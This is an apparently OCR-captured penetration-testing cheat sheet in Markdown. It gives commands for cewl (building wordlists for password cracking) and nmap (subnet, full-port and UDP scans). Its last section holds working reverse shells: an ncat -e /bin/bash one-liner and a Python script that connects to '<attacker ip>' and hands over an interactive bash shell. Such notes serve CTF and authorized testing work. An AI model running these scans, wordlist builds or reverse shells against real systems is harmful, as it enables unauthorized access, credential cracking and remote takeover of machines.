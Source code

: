 ### :open_file_folder: cewl

get a list for password crackers

```shell
cewl -d 4 https://192.168.0.1 -w /tmp/wordlists.txt --with-numbers --lowercase
# -d depth
# --with-numbers: Accept words with numbers in as well as just letters
# --help
```

### :open_file_folder: nmap

[Timing Templates](https://nmap.org/book/performance-timing-templates.html)

[Host Discovery](https://nmap.org/book/man-host-discovery.html)

scan a subnet

```shell
# Note that if set too fast may affect the results
nmap -T3 192.168.10.0/24
```

scan all TCP ports and services

```shell
nmap -Pn -p- -sC -sV -T4 <target ip>
```

optimizing performance

```shell
nmap -p- --min-rate 1000 <target ip>
# --min-rate <number>: Send packets no slower than <number> per second

# and then specific port
nmap -p <target port> -sC -sV <target ip>

# UDP
nmap -p- --min-rate 1000 -sU <target ip>
```

### :open_file_folder: reverse shell

ncat 

```shell
ncat -e /bin/bash <attacker ip> <attacker port>
```

python3(file)

```Python
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker ip>",<attacker port>)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

